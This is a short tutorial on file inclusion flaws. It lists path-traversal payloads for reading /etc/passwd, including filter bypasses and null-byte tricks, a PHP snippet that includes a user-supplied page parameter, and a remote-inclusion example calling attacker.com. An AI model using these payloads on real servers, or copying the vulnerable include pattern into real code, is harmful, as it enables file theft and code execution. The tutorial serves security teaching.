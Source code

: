 # 📁 File inclusion

A file inclusion vulnerability is caused when a malicious user can access or upload unathorized files or directories.

There are three main types of file inclusion vulnerabilities:

- Path traversal
- Local File Intrusion (LFI)
- Remote File Inclusion (RFI)

## Path traversal

The attacker can access files in other directories of the server.
Usually, this type of attack is based on dot-dot-slash notation.

```bash
# basic dot-dot-slash notation
../../../etc/passwd

# ascii version
%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd

# truncate string (PHP < 5.3.4) using null byte
../../../etc/passwd0x00
../../../etc/passwd%00
../../../etc/passwd\0

# if validation is done over the first match of the string 'etc' and what is right after
../../../etc/../etc/passwd

# if '/etc/passwd' is filtered
../../../etc/./passwd

# if '../' is removed
....//....//....//....//....//etc/passwd
```

## LFI

In Local File Intrusion (LFI) the attacker makes the server to include other local script files.

The main difference with path traversal is the execution of scripts decided by the attacker.

In PHP this could happen with functions like `include`, `required`, `include_once`, and `required_once`.

```php
<?php
  include("./pages/".$_GET["page"]);
?>
```

## RFI

In Remote File Inclusion (RFI) the attacker makes the server to include other script files from external sources.

For example, the function `include` can also import external sources:

```php
<?php
  include("http://attacker.com/inject.php");
?>
```

